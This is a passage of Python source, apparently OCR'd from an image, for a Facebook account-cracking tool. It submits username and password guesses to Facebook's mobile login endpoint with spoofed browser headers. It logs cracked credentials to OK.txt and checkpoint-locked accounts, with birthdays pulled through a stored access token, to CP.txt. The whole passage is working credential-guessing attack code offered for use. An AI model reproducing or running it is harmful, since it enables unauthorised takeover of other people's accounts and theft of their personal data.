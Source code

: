             p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
            dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
            _headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
            po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
            if 'c_user' in ses.cookies.get_dict():
                IMTIAZ_AKING('\r\033[1;32m[SUCCESSFULL-SUBHAN]  %s | %s      ' % (user,pw))
                wrt = '%s - %s' % (user,pw)
                ok.append(wrt)
                open('OK.txt','a').write('%s\n' % wrt)
                break
            elif 'checkpoint' in ses.cookies.get_dict():
                try:
                    token = IMTIAZ('token.txt').read()
                    cp_ttl = Prof_IMtiaz('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    IMTIAZ_AKING('\r\033[1;91m[SUBHAN-CHECKPOINT] %s | %s • %s %s %s%s      ' % (user,pw,day,month,year,tahun(user)))
                    wrt = '%s - %s - %s %s %s%s' % (user,pw,day,month,year,tahun(user))
                    cp.append(wrt)
                    open('CP.txt','a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day   = ''
                    year  = ''
                except:
                    pass
                IMTIAZ_AKING('\r\033[1;91m[SUBHAN-CHECKPOINT] %s | %s%s      ' % (user,pw,tahun(user)))
                wrt = '%s - %s%s'%(user,pw,tahun(user))
                cp.append(wrt)
                open('CP.txt','a').write('%s\n' % wrt)
                break
        loop += 1
    def __mfb__(self, user, _sempak_):
        global ok,cp,loop
        sys.stdout.write('\r\033[1;92m [IDREES] %s/%s  \033[1;92mIDREESOK-:%s / \033[1;91mIDREESDIEDCP-:%s'%(loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in _sempak_:
            pw = pw.lower()
            try: os.mkdir('')
            except: pass
            try:
                ua_xiaomi = IMTIAZ('agent.txt', 'r').read()
            except (KeyError, IOError):
                ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
            ses = requests.Session()